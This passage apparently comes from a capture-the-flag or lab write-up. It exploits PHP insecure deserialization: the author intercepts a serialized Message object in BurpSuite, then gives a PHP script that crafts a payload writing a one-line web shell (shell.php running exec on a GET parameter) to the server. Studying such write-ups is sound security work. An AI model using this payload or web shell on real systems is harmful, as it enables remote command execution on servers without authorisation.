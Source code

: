 ```javascript
            /**
             * Serializes an object to PHP format (similar to serialize() in PHP)
             * @param {string} message - The string message to serialize
             */
            function phpSerialize(message) {
                return 'O:7:"Message":1:{s:7:"message";s:' + message.length + ':"' + message + '";}';
            }
```

We use BurpSuite to facilitate the intrusion. We send the message `test` and observe that it sends a PHP-serialized object, which is likely deserialized on the server using the leaked PHP class.

![alt text](../../assets/images/matrix/image-11.png)

```bash
O:7:"Message":1:{s:7:"message";s:4:"test";}
```

We can write a PHP script to serialize the object, but it can also be done manually. Below is a payload to create `shell.php` on the server:

```php
<?php

class Message {
    public $file = "messages.txt";
    public $message = "";
    public function __unserialize(array $data){
        file_put_contents($data['file'],$data['message']."\n", FILE_APPEND);
    }
}
$msg = new Message();
$msg->file = 'shell.php';
$msg->message = "<?php echo exec(\$_GET[\"cmd\"]); ?>";

echo serialize($msg);

```
